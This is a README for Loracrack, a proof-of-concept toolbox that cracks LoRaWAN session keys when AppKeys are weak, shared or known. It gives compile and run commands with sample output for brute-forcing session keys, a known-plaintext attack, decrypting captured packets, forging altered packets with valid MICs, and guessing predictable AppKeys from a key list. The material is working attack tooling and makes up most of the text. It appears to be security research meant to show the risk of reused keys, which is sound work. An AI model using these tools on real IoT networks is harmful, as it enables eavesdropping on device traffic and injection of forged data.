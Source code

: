 ## Loracrack - LoRaWAN session cracker
##### A PoC for exploiting weak or shared Application Keys
Created by Sipke Mellema of Applied Risk

This is a Proof-of-Concept for demonstrating the dangers of using the same AppKey on multiple LoRaWAN nodes.

This repository holds a toolbox for cracking LoRaWAN session keys from captured packets. The attack scenario assumes you know the AppKey but missed the handshake. Or the AppKey isn't random and can be guessed.

LoRa handshakes use three values to generate the session keys:
`AppNonce | NetID | DevNonce`
AppNonce and NetID are 3 bytes, and DevNonce is 2 bytes. Part of the NetID is known, so that leaves 57-bit entropy. And because of implementation flaws this can get way lower.

### Compiling and usage
Just `make` it. Note that you may have to link to an openssl 1.0.* location in the Makefile.

### Overview of tools

#### loracrack
`./loracrack -k <AppKey in hex> -p <raw_packet in hex>`

Cracks session keys if handshake (join-accept) is missed but AppKey is known. Cracking is done by generating session keys and checking the MIC.

```$ gcc loracrack.c includes/*.c -o loracrack -lpthread -lcrypto -O3
$ ./loracrack -k 88888888888888888888888888888888 -p 400267bd018005000142d9f48c52ea717c57

4899be88e40088c40abc703fa3ba1195 04068f88b9feee5385c67e033d911b4a
```
```
Optional arguments:
	-t threads
	-v verbose (0, 1 or 2)
	-m maximum AppNonce
```

#### loracrack_knownpt
`./loracrack_knownpt -k <AppKey in hex> -p <raw_packet in hex> -d <plain_text in hex>`

Cracks session keys if handshake (join-accept) is missed but AppKey and plaintext are known. Cracking is done by decrypting the FRMPayload and checking the plaintext. It's faster than checking the MIC, since the CMAC uses more AES operations.

```$ gcc loracrack_knownpt.c includes/*.c -o loracrack_knownpt -lpthread -lcrypto -O3
$ ./loracrack_knownpt -k 88888888888888888888888888888888 -p 400267bd018005000142d9f48c52ea717c57 -d 33302e3332

4899be88e40088c40abc703fa3ba1195 04068f88b9feee5385c67e033d911b4a
```
```
Optional arguments:
	-t threads
	-v verbose (0, 1 or 2)
	-m maximum AppNonce
```

#### loracrack_decrypt
`./loracrack_decrypt -k <decrypt key in hex> -p <raw_packet in hex>`

Decrypts packet data if session key is known.

```$ gcc loracrack_decrypt.c includes/*.c -o loracrack_decrypt -lcrypto -O3
$ ./loracrack_decrypt -k 4899be88e40088c40abc703fa3ba1195 -p 400267bd018005000142d9f48c52ea717c57

30.32
```

#### loracrack_alterpacket
`./loracrack_alterpacket -p <raw_packet in hex> -a <AppSKey in hex> -n <NwkSKey in hex> -c <Fctn> -d <new data in hex>`

Alters packet with new data, keeps old things like DeviceAddr.

```$ gcc loracrack_alterpacket.c includes/*.c -o loracrack_alterpacket -O3 -lcrypto
$ ./loracrack_alterpacket -p 400267bd018005000142d9f48c52ea717c57 -a 4899be88e40088c40abc703fa3ba1195 -n 04068f88b9feee5385c67e033d911b4a -c 5 -d 33302d3332

400267bd018005000142d9f78c521c78573b
```

#### loracrack_genkeys
`./loracrack_genkeys -k <AppKey in hex> -j <join_packet in hex> -a <accept_packet in hex>`

Generates session keys given handshake (join and accept packets) and AppKey.

```$ gcc loracrack_genkeys.c includes/*.c -o loracrack_genkeys -lcrypto -O3
$ ./loracrack_genkeys -k 88888888888888888888888888888888 -j 0000000000000000002bd61f000ba304000e1ba147157a -a 20adf6e18980952590fc1f7987a6913f35

4e1dcaf4f02fcd2ecbb1cb0d138fc53d 96eb9e13f0a3468ca580707ee688ee19
```

#### loracrack_guessjoin
`./loracrack_guessjoin -p <raw_packet in hex> -f <file with AppKeys in hex>`

Checks if predictable AppKeys are used by checking the MIC on a join packet. AppKeys are taken from a file with hex-encoded AppKeys on new lines.

```$ gcc loracrack_guessjoin.c includes/*.c -o loracrack_guessjoin -lcrypto -O3
$ ./loracrack_guessjoin -p 0000000000000000002bd61f000ba304002f3b5785cf80 -f guessjoin_genkeys/simplekeys

88888888888888888888888888888888
```
